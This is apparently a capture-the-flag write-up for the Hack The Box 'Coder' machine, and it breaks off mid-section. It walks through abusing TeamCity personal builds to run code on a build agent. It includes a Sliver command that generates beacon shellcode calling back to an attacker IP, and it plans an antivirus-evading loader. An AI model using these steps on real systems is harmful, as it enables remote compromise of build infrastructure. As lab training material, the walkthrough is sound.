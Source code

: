So I just updated my clock to the server time with `ntpdate`.

```bash
┌──(netexec-aAT1m2Ox-py3.11)─(ar0x㉿kali)-[~/Desktop/HTB/Machines/Coder]
└─$ sudo ntpdate `box`
2023-12-27 01:54:05.614635 (+0100) +15123.630695 +/- 0.020358 10.129.229.190 s1 no-leap
CLOCK: time stepped by 15123.630695
```

![](https://cdn.discordapp.com/attachments/1071118357933338645/1189264426675732581/image.png?ex=659d87ce&is=658b12ce&hm=cb423513c18e4479fe2e13196beecac3dc04fac1ce94a034f2202f86cfe20476&)



Great, now we are logged into the `TeamCity CI/CD`and i just started to find out how i can get code execution on the `dc01`agent.

![](https://cdn.discordapp.com/attachments/1071118357933338645/1189265212176605204/image.png?ex=659d888a&is=658b138a&hm=6e81bc7f5b32c6082bd7cb26bb8a91203b1649107e99166728cc1d16c58ad0e1&)

In the log message we see *Hello World*, so this is probably running the `hello-world.ps1` script in the `Migrations` share.

###### Personal Build

![](https://cdn.discordapp.com/attachments/1071118357933338645/1189537354642366535/image-20231120155034852.png?ex=659e85fd&is=658c10fd&hm=2c0a9310cbaa4114100f5dc6bb47a2bc89edc72c9fa78236259718a355597f75&)

"run as personal" build sounds very interesting, lets check the `Jetbrains` documentation and see what this is.

```ad-info
title: Personal Build

A _personal build_ is a build-out of the common build sequence which typically uses the changes not yet committed into the version control. Personal builds are usually initiated from one of the [supported IDEs](https://www.jetbrains.com/help/teamcity/supported-platforms-and-environments.html#Remote+Run+and+Pre-tested+Commit) via the [Remote Run](https://www.jetbrains.com/help/teamcity/remote-run.html) procedure. You can also upload a patch with changes directly to the server, as described [below](https://www.jetbrains.com/help/teamcity/personal-build.html#Direct+Patch+Upload).
```

So based on that we can just upload a patch and the patch will be executed on the server. So I just fired up `sliver` and generated a beacon as shell code. As we want to be exited (not trigger the AV) im going to generate a loader with `ScareCrow`.

*Generating the Sliver shellcode*

```bash
sliver > generate beacon --http 10.10.14.137 --seconds 5 --jitter 3 --os windows --arch x64 --format shellcode -G --skip-symbols

[*] Generating new windows/amd64 beacon implant binary (5s)
[!] Symbol obfuscation is disabled
[*] Build completed in 3s
[!] Shikata ga nai encoder is disabled
[*] Implant saved to /home/ar0x/Desktop/HTB/Machines/Coder/PLANNED_MIGRANT.bin
```

*Generating the Loader*
